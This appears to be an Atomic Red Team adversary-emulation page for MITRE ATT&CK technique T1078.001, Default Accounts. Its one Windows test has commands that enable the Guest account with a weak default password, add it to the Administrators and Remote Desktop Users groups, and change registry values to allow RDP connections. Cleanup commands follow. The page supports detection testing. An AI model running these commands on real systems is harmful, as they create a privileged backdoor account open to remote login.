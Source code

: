 # T1078.001 - Default Accounts
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1078/001)
<blockquote>Adversaries may obtain and abuse credentials of a default account as a means of gaining Initial Access, Persistence, Privilege Escalation, or Defense Evasion. Default accounts are those that are built-into an OS, such as the Guest or Administrator accounts on Windows systems or default factory/provider set accounts on other types of systems, software, or devices.(Citation: Microsoft Local Accounts Feb 2019)

Default accounts are not limited to client machines, rather also include accounts that are preset for equipment such as network devices and computer applications whether they are internal, open source, or commercial. Appliances that come preset with a username and password combination pose a serious threat to organizations that do not change it post installation, as they are easy targets for an adversary. Similarly, adversaries may also utilize publicly disclosed or stolen [Private Keys](https://attack.mitre.org/techniques/T1552/004) or credential materials to legitimately connect to remote environments via [Remote Services](https://attack.mitre.org/techniques/T1021).(Citation: Metasploit SSH Module)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Enable Guest account with RDP capability and admin priviliges](#atomic-test-1---enable-guest-account-with-rdp-capability-and-admin-priviliges)


<br/>

## Atomic Test #1 - Enable Guest account with RDP capability and admin priviliges
After execution the Default Guest account will be enabled (Active) and added to Administrators and Remote Desktop Users Group, and desktop will allow multiple RDP connections

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| guest_user | Specify the guest account | String | guest|
| guest_password | Specigy the guest password | String | Password123!|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net user #{guest_user} /active:yes
net user #{guest_user} #{guest_password}
net localgroup administrators #{guest_user} /add
net localgroup "Remote Desktop Users" #{guest_user} /add
reg add "hklm\system\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "hklm\system\CurrentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
```

#### Cleanup Commands:
```cmd
net user #{guest_user} /active:no >nul 2>&1
net localgroup administrators #{guest_user} /delete >nul 2>&1
net localgroup "Remote Desktop Users" #{guest_user} /delete >nul 2>&1
reg delete "hklm\system\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /f >nul 2>&1
reg delete "hklm\system\CurrentControlSet\Control\Terminal Server" /v "AllowTSConnections" /f >nul 2>&1
```





<br/>
